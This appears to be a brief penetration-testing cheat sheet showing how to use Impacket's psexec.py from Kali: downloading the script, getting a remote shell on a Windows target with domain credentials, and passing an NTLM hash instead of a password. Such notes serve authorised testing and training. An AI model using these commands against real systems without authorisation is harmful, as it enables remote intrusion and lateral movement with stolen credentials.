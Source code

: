 ```yaml
---
category: Uncategorized
tags: []
---
```

```python - kali
python3 /usr/share/doc/python3-impacket/examples/psexec.py --help
```

or

```bash - kali
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/psexec.py
```

#### Shell with psexec.py
```python - kali
psexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

#### Passing the hash (blank LM hash)
```bash  - kali
psexec.py $DOMAIN/$USER@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:$HASH
```
